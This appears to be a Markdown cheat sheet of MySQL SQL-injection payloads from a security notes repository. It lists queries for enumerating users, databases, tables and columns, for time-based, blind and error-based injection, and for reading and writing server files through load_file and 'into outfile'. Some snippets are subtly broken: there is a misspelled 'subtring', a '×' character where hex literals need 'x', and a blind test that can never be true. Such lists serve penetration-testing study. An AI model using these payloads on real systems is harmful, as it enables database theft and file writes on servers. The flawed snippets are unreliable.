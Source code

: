 MySQL Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0×41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0×414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(subtring(str,pos,length)) & 32 == 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
- Write File
    - ``union select 1,1,1 into outfile '/tmp/demo.txt'``
    - ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``
    - dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏


